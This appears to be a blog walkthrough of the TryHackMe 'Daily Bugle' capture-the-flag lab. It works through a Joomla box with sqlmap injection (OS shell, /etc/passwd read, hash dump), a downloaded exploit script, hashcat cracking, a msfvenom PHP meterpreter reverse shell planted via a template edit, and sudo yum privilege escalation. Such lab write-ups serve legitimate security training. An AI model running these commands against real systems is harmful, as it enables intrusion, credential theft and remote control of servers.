*2021-08-29*

*kimm3*

# Walkthrough: Daily Bugle
Platform: TryHackMe

Difficulty: Hard

- [Link](https://tryhackme.com/room/dailybugle)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup


```
script history/enum1
export IP=10.10.122.150
ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`



Well, it's definitely a web server. A centos machine with apache, joomla, PHP, MySQL/mariadb.



Click-numeration:
Article page

http://10.10.122.150/index.php/2-uncategorised/1-spider-man-robs-bank

Login page

http://10.10.122.150/index.php/component/users/?view=login&Itemid=101

(No password not allowed.)

Resetting password pages:
- Password, http://10.10.122.150/index.php/component/users/?view=reset&Itemid=101
- Username, http://10.10.122.150/index.php/component/users/?view=remind&Itemid=101



Not much info given on failed login.

[This guide](https://hackertarget.com/attacking-enumerating-joomla/) on hackertarget is very nice if you're new to exploiting joomla.

```
curl "http://10.10.122/150/" > scans/curl-indexp80
curl "http://10.10.122.150//administrator/manifests/files/joomla.xml" > scans/curl-joomla.xml
```

These two files confirm joomla, and we get the version.





The admin site is visible to us.



[This exploit](https://www.exploit-db.com/exploits/42033) could be worth a shot. Just copy the command and change to corresponding IP.

```
sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```



`sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent --is-dba -D joomla --schema -p list[fullordering]`



Server running as root and is dba.

`sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent --os-shell -p list[fullordering]`



Maybe try guessing writeable folders later.

```
sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -p list[fullordering] --random-agent --passwords

hashcat -a 0 -m 300 creds/sqlhash sl/Passwords/Leaked-Databases/rockyou.txt
hashcat -a 0 -m 300 creds/sqlhash sl/Passwords/Default-Credentials/mysql-betterdefaultpasswords.txt
```



I retrieve one hash with this command, but dosen't easily crack.

`sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent --file-read="/etc/passwd" list[fullordering]`



We now have a username jjameson with the name 'Jonah Jameson'.

```
touch upload/test
sqlmap -u "http://10.10.122.150/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -p list[fullordering] --random-agent --file-write=test --file-dest=/var/www/html
curl "http://10.10.122.150/test"
```

Not working.

Googling for the CVE number, [this](https://github.com/stefanlucas/Exploit-Joomla) comes up.
```
curl "https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py" > joombla.py
chmod u+x
./joombla.py http://10.10.122.150/
```



```
hashid creds/joomblahash
hashcat -a 0 -m 3200 creds/joomblahash sl/Passwords/Leaked-Databases/rockyou.txt
```
Googling for which mode to use:






## Foothold/Exploit
Since we're on an admin page on CMS that runs on PHP - I'll try to get a PHP reverse shell/meterpreter.

`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.8.210.115 -f raw -o upload/merp.php`



Right-click on an image and copy location to get URL of the file.



Upload our merp, set up handler in msf and trigger with curl.
```
msfconsole
use exploit/multi/handler
set LHOST 10.8.210.115
set LPORT 4444
set payload php/meterpreter/reverse_tcp
run

curl "http://10.10.42.140/images/merp.php"
```

Not working, file dosen't upload. Checked all the options and tried several times, but joomla seems to filter it out somehow.



We need another way to create a php file on the web server.

After searching around for a while, I found the templates, in there you can edit or create new php files.



Protostar is the default template.



Created a merp.php with the same content as the one I created with msfvenom earlier.



Where to curl? Took my chances from the above picture.

`curl "http://10.10.42.140/templates/protostar/merp.php"`



Worked! We're in as apache user.
## Further enumeration
- Ran linpeas and sent over report to local machine.
- We can't get in to jjameson home folder.
- We can't su to jjameson with spiderman123.
- No cron jobs.
- No unusual setUID/setGIDs.
- Tried [this](https://www.exploit-db.com/exploits/25134) sudo vulnerability, failed due to user not having perm to run chown.
- Checked numerous configuration files for credentials.

We can read the configuration.php in clear text, the password was filtered out in the admin web page.





We can't su to root with these creds, but jjameson worked.

Try the user to ssh in as jjamesson with our new credentials.





## Privilege escalation


We're allowed to run yum as root wihtout a password.



[Link.](https://gtfobins.github.io/gtfobins/yum/)


